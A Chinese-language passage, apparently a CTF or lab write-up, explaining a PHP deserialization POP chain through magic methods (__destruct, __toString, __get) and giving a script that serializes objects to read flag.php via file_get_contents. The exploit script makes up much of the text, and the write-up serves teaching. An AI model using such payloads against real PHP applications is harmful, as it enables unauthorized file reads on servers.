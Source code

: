 我们首先确定目标就是`Test::file_get()`里面的`file_get_contents()`读取文件，可以看到`get()`方法中调用了`file_get()`方法，接下来看一下哪里有调用`get()`，发现在魔术方法`__get()`中调用了`get()`那么现在的`POP链`是：

```php
Test::__get()->Test::get()->Test::file_get()
```

接下来首先必须知道`__get()`的触发条件：`读取不可访问属性的值时，这里的不可访问包含私有属性或未定义`，接着看一下哪里触发了魔术方法`__get()`，在`Show::__toString()`中出现了`未定义属性$content`并对其进行赋值，这样就会触发`__get()`方法，利用的时候只需把`Test`对象赋值给`$this->str['str']`，接下来看一下哪里会触发`__toString()`方法，在`C1e4r:__destruct()`有`echo`操作，这样就触发了`__toString()`，那么完整的`POP链`如下：

```php
Cle4r::str->Show::str['str']->Test::__get->Test::get()::Test::file_get()
```

构造利用脚本:

```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;
    }
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show{
    public $str;
    public $source;
    public function __toString(){
        $content = $this->str['str']->source;
        return (string)$content;
    }
}

class Test{
    public $file;
    public $params;
}

$T=new Test();
$T->params=array('source'=>'D:\phpstudy_pro\WWW\Test\flag.php');//这里好像只能使用绝对路径才能读取到
$S=new Show();
$S->str=array('str'=>$T);
$C=new C1e4r($S);
echo serialize($C);
?>

```
